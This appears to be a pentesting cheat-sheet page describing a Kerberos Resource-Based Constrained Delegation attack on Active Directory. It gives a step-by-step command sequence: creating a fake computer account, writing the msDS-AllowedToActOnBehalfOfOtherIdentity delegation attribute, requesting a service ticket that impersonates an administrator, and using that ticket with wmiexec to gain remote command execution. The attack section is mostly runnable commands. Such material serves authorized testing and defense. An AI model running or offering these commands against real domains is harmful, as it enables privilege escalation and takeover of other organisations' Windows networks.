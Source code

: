 ```yaml
---
title: Resource-Based Constrained Delegation Attack
description: Kerberos RBCD attack targets a domain computer, exactly service principals related to the target domain computer.
tags:
    - Active Directory
    - Kerberos
    - Windows
refs:
    - https://github.com/tothi/rbcd-attack
date: 2023-02-18
draft: false
---
```


## Exploit

Reference: [https://github.com/tothi/rbcd-attack#abusing-kerberos-resource-based-constrained-delegation](https://github.com/tothi/rbcd-attack#abusing-kerberos-resource-based-constrained-delegation)

### 0. Prerequisites

To achieve this attack successfully, we need the following conditions:

- A domain account who has permission to write the computer (`msDS-AllowedToActOnBehalfOfOtherIdentity` property of the domain object).
- A domain account who has permission to create a new computer.
- LDAP (389) and SAMR (445) or LDAPS (636) access to the DC.
- Kerberos (88) access to the DC.

### 1. Create Fake Computer

```bash
impacket-addcomputer -computer-name 'fakecomputer$' -computer-pass 'password' -dc-ip 10.0.0.1 example.local/username:password
```

### 2. Modify Delegation Rights

We can use [rbcd.py](https://github.com/tothi/rbcd-attack#abusing-kerberos-resource-based-constrained-delegation) for abusing `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target.

```bash
rbcd.py -f FAKECOMPUTER -t WEB -dc-ip 10.0.0.1 example\\username:password

rbcd.py 'example.local/fakecomputer$' -delegate-to 'fakecomputer$' -delegate-from user1 -action write -use-ldaps -k -no-pass
```

### 3. Get the Impersonated Service Ticket

Impersonated service tickets may allow high-level access to services on the target like CIFS (Common Internet File System), HTTPs, etc.

```bash
getST.py -spn cifs/example.local -impersonate admin -dc-ip 10.0.0.1 example.local/FAKECOMPUTER$:password
```

### 4. Use the Service Ticket

After getting the service ticket, we can use it for further pentesting.  
Before doing that, we need to add the environment variable as below:

```bash
export KRB5CCNAME=`pwd`/admin.ccache

# Check by listing tickets.
# If the klist command not found, install it by `apt install krb5-user`
klist
```

- Login to Services with Kerberos Auth
    
    ```bash
    # -k: Use Kerberos Auth
    # -no-pass: No password
    impacket-wmiexec example.local/Administrator@example.local -k -no-pass
    ```
